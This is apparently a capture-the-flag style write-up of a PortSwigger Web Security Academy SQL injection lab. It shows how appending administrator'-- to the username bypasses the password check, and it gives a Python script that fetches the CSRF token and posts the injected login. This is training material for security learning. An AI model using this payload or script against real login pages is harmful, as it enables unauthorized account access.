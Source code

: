 # Allowing login bypass

![](https://jawad.ca/images/sqli-lab02/sqli-lab02-01.png)

Lab #2 by PortSwigger Web Security Academy: [https://portswigger.net/web-security/sql-injection/lab-login-bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

### Description <a href="#description" id="description"></a>

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

#### Steps <a href="#steps" id="steps"></a>

Trying to login by using a single quote (`'`) as the username, returns an internal server error, demonstrating that the app is vulnerable.

![](https://jawad.ca/images/sqli-lab02/sqli-lab02-05.png)

By intercepting the Login POST request and appending `'--` to the administrator username, we can bypass the remaining part of the query that checks the password.

![](https://jawad.ca/images/sqli-lab02/sqli-lab02-04.png)

\
And we’re in!

![](https://jawad.ca/images/sqli-lab02/sqli-lab02-03.png)

\
Let’s script the solution in Python.

It’s a `POST` request that expects three parameters: `csrf`, `username`, and `password`.

{% code overflow="wrap" %}
```python
import requests  
import sys  
import urllib3  
from bs4 import BeautifulSoup  
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
  
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}  
  
def get_csrf_token(session, url):  
	response = session.get(url, verify=False, proxies=proxies)  
	soup = BeautifulSoup(response.text, 'html.parser')  
	# getting csrf from html input element  
	return soup.find("input")['value']  
  
  
if __name__ == "__main__":  
	try:  
		url = sys.argv[1].strip()  
		username = sys.argv[2].strip()  
	except IndexError:  
		print('Usage: %s <url> <username>, e.g www.example.com "1=1"' % sys.argv[0]) 
		sys.exit(-1)  
  
session = requests.Session()  
  
#password is not important knowing that Auth is bypassed from an SQLi in ther username parameter  
data = {"csrf": get_csrf_token(session, url), "username": username, "password": "randomstring"}  
response = session.post(url, data=data, verify=False, proxies=proxies)  
  
# Congratulations message will show up only after solving the lab manually.  
if "Congratulations" in response.text:  
	print("it worked.")  
else:  
	print("Didn't work.")
	
```
{% endcode %}

\
Testing the Python script:

{% code overflow="wrap" %}
```python
> python3 sqli-lab02.py "https://0ab000eb0409a6428036c6eb00f500b7.web-security-academy.net/login" "administrator'--"

```
{% endcode %}

\
It worked! We can also validate it through Burp.

![](https://jawad.ca/images/sqli-lab02/sqli-lab02-06.png)
